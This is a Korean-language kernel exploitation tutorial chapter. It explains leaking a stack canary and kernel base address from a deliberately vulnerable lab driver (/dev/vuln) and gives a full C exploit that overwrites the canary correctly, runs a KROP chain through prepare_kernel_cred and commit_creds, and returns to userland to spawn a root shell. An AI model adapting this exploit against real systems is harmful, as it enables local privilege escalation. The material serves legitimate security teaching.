


# 5-2. 스택 카나리 우회하기 : 카나리 유출(Canary Leak)

스택 카나리도 결국 커널 스택에 저장된 값입니다. 따라서 카나리를 우회하려면, 우리가 4장에서 KASLR을 우회하듯, **커널 내 정보를 유출할 때 스택 카나리 값도 같이 유출시키면 됩니다.** 카나리 값이 유출되었으면, 버퍼 오버플로 공격 시 카나리 값을 바르게 덮을 수 있으므로 카나리 검증을 우회하고 KROP를 할 수 있습니다.

## 어떤 값을 읽어야 할까?

이번에도 4장처럼 `dev_read`에서 `_copy_to_user`가 실행되었을 때 커널 스택을 살펴봅시다. 아래 사진을 보세요.


여기서 \[rsp+0x40\] 위치에 있는 값인 `0xee0244ab7bb06c00` 이 바로 스택 카나리입니다! 동시에, \[rsp+0x58\]에 있는 값인 `0xffffffffbb6e8004`가 바로 `dev_read`의 반환 주소이자 `vfs_read` 함수 내 어딘가입니다!(스택 카나리와 반환 주소는 매번 변함에 유의하세요.)

어라? 그런데 4장과는 달리 이번에는 반환 주소의 끝 5자리가 `e8004`로 바뀌었네요?

5-1장에서 설명했듯, 우리가 커널을 컴파일할 때 카나리 옵션(CONFIG_STACKPROTECTOR)을 켰습니다. **이 때문에 커널 내부의 수십만 개 함수들의 시작과 끝에 카나리를 검사하는 어셈블리 코드가 일제히 추가되었습니다.**

함수들의 크기가 늘어났으니, 그 안에 들어있던 코드들의 위치(오프셋)도 뒤로 일제히 밀린 것입니다!

5-1 장에서 설명했듯, 스택 카나리 옵션을 넣어 컴파일하면 코드가 첨가되므로, 내부 함수들의 주소 오프셋이 모두 변합니다. **동시에 KROP를 할 때 사용할 가젯들의 위치도 모두 변하므로 다시 계산해야 합니다.**

### ⚠️ 필요한 가젯이 사라졌습니다.

오프셋이 변했다는 것은, **우리가 3장에서 찾은 KROP 가젯들의 위치도 전부 바뀌었다는 뜻입니다.** 따라서 `rp++` 등 도구를 사용해 가젯을 처음부터 다시 추출해서 새로운 주소를 확인해야 합니다.

**그런데 여기서 '중대 사고'가 발생합니다.**

바뀐 커널 바이너리(`vmlinux`)를 분석해 본 결과, 우리가 `prepare_kernel_cred`의 결과를 옮기기 위해 3장에서 억지로 썼던 지저분한 가젯(xchg rax, rdi)이 **새로운 컴파일 과정에서 완전히 사라져 버렸습니다!**

> 💡 현실 세계의 커널 해킹
>
> 3-3장에서도 경고했듯, 커널 옵션이나 컴파일러의 최적화 로직이 조금만 바뀌어도 기존에 쓰던 가젯들이 사라지는 일은 실전 해킹에서 매우 잦은 일입니다.

하지만 새로운 실험 환경을 분석해 본 결과 아래 사진처럼 `prepare_kernel_cred(&init_task)`가 종료된 직후, **운 좋게도 컴파일러의 레지스터 최적화 덕분에 rax와 rdi 레지스터에 똑같이 '새로운 신분증 주소'가 고스란히 담겨 있었습니다.**



이 경우 추가 가젯 없이 곧바로 `commit_creds`를 호출해도 권한 상승에 성공합니다! 때로는 가젯 검색기를 믿는 것보다, 여러분이 직접 디버거로 현재 커널 상태를 확인하는 것이 더 강력한 무기가 된답니다.

이제 필요한 모든 정보가 구해졌으니 익스플로잇을 작성해 봅시다!

## 익스플로잇 완성하기

아래는 KROP 과정에서 카나리 유출 과정을 추가한 익스플로잇 코드입니다. 작동 원리는 3장과 동일하므로 생략하겠습니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 96 // 버퍼(64) + 카나리(8) + SFP 등 남은 레지스터(24) = 96바이트

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL);
}

int main() {

    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    // 1. 커널 내부 스택 읽기
    unsigned long kernel_stack[25] = { 0 };
    read(fd, kernel_stack, 200);

    // 디버거에서 카나리는 [rsp+0x40(64)]에 있었으므로 -> 64 / 8 = 인덱스 [8]
    // 반환 주소는 [rsp+0x58(88)]에 있었으므로 -> 88 / 8 = 인덱스 [11]
    unsigned long canary = kernel_stack[8];
    unsigned long kernel_base = kernel_stack[11] - 0x4e8004; // 새로 바뀐 오프셋 적용
    unsigned long offset = kernel_base - 0xffffffff81000000;

    printf("[*] Canary = 0x%lx\n", canary);
    printf("[*] Kernel Base = 0x%lx\n", kernel_base);
    printf("[*] Offset = 0x%lx\n", offset);

    // 이번에는 KROP을 하기 전에, 스택 카나리를 바르게 덮어야 합니다.
    char payload[300] = { 0 };
    memset(payload, 'A', NUM); // 일단 96바이트를 전부 덮습니다.
    memcpy(payload + 64, &canary, 8); // 스택 카나리를 카나리 영역에 배치합니다.

    /* 이번에는 운이 좋게도 mov rdi, rax 없이도 익스플로잇을 할 수 있었습니다. */
    unsigned long prepare_kernel_cred_addr = 0xffffffff812cf580 + offset;
    unsigned long commit_creds_addr = 0xffffffff812cf2d0 + offset;
    unsigned long init_task_addr = 0xffffffff82c0ca00 + offset;

    unsigned long pop_rdi = 0xffffffff81360ccd + offset; // pop rdi; ret;
    unsigned long swapgs = 0xffffffff810017c0 + 0x98 + offset; // paranoid_entry + 0x98 (swapgs; ret;)
    unsigned long iretq = 0xffffffff81000080 + 0x164a + offset; // entry_SYACALL_64 + 0x164a (iretq)

    /* 가젯 설치 */
    memcpy(payload + NUM, &pop_rdi, 8);
    memcpy(payload + NUM + 8, &init_task_addr, 8);
    memcpy(payload + NUM + 16, &prepare_kernel_cred_addr, 8);
    memcpy(payload + NUM + 24, &commit_creds_addr, 8);
    memcpy(payload + NUM + 32, &swapgs, 8);
    memcpy(payload + NUM + 40, &iretq, 8);
    
    /* 복귀 과정 */
    unsigned long iretq_stack[5] = {0};
    unsigned long fake_stack[2048] = {0}; // 가짜 스택 공간입니다.
    iretq_stack[0] = (unsigned long)&win_shell; // RIP : 복귀하자마자 셸을 실행하게 해 줍니다.
    iretq_stack[1] = 0x33; // CS : 리눅스 기본값
    iretq_stack[2] = 0x202; // RFLAGS : 인터럽트 허용 설정
    iretq_stack[3] = (unsigned long)(fake_stack) + 2048; // RSP : 위에서 만든 가짜 스택의 끝 주소
    iretq_stack[4] = 0x2b; // SS : 리눅스 기본값

    memcpy(payload + NUM + 48, &iretq_stack, 40);
    
    printf("[+] Sending exploit payload...\n");

    write(fd, payload, NUM + 88);

    close(fd);
    return 0;
}
```

이제 실험 환경에 있는 `exploit`을 실행해 보세요.



**성공입니다!** 스택 카나리 및 코드 주소를 유출하고 이것으로 카나리를 바르게 덮어 검증을 우회했습니다.

## 🏁 5장을 마치며

어느새 현대 커널의 핵심 보호 기법 3가지(SMEP, KASLR, SSP)를 우회했습니다.

이처럼 시스템 보안은 방어자가 새로운 보호 기법을 도입하면, 해커는 그것을 우회하는 방법을 찾는 창과 방패의 싸움이랍니다.

6장에서는 지금까지와는 결이 조금 다른, 다소 생소한 보호 기법인 KPTI를 배웁니다.

이것은 보안 역사상 매우 파장이 컸던 보안사고로 인해 긴급하게 투입된 보호막인데, 이것도 같이 다룰 예정입니다!